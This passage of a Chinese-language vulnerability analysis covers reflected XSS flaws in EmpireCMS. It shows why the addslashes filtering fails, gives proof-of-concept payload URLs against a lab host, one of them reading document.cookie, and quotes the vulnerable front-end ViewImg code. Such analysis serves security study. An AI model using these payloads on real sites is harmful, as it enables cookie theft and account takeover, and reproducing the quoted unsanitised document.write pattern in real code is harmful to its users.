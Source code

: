 用 AddAddsData 函数对参数进行处理

```
function AddAddsData($data){    if(!MAGIC_QUOTES_GPC)    {        $data=addslashes($data);    }    return $data;}
```

如果没有开启 MAGIC_QUOTES_GPC，则利用 addslashes 函数进行转义

addslashes() 函数返回在预定义字符之前添加反斜杠的字符串

网页输出

然而输出的位置是在 iframe 标签的 src 里，这意味着之前的过滤都没有什么用。iframe 标签可以执行 js 代码，因此可以利用 javascript:alert(/xss/) 触发 xss

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8ekm5icddh8rCXRYrOib0jzOHa1l3BAcqKcyU0wMeUuic8AaMFksKTf7QaZVbEDB4p0bgXXooicR9kwQ/640?wx_fmt=png)

### payload

payload 如下：

```
192.168.10.3/EmpireCMS/e/admin/openpage/AdminPage.php?ehash_3ZvP9=dQ7ordM5PCqKDgSmvkDf&mainfile=javascript:alert(/xss/)
```

其中 ehash 是随机生成的，在登录时可以看到 ehash_3ZvP9=dQ7ordM5PCqKDgSmvkDf，如果缺少这个 hash 值，则会提示非法来源

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8ekm5icddh8rCXRYrOib0jzOftC2ia7hmGZk282Ww6tqUibZvjW4P1Efe8AxIaeiaVeNstLY8qrunoBHg/640?wx_fmt=png)

获取 cookie 信息 payload

```
192.168.10.3/EmpireCMS/e/admin/openpage/AdminPage.php?ehash_3ZvP9=dQ7ordM5PCqKDgSmvkDf&mainfile=javascript:alert(document.cookie)
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8ekm5icddh8rCXRYrOib0jzOPl9SOE5LSG5iafzlzTrLX91TsJaT7trqTyLCodPz6gxWGtaUc3L2ZEw/640?wx_fmt=png)

前台 xss
------

### 原理分析

漏洞类型：反射型 xss

漏洞文件：localhost/EmpireCMS/e/ViewImg/index.html

漏洞原理：url 地址经过 Request 函数处理之后, 把 url 地址中的参数和值部分直接拼接当作 a 标签的 href 属性的值和 img 标签的 src 标签的值

主要漏洞代码位置 localhost/upload/e/ViewImg/index.html

```
if(Request("url")!=0){    document.write("<a title=\"点击观看完整的图片...\" href=\""+Request("url")+"\" target=\"_blank\"><img src=\""+Request("url")+"\" border=0 class=\"picborder\" onmousewheel=\"return bbimg(this)\" onload=\"if(this.width>screen.width-500)this.style.width=screen.width-500;\">");    }
```
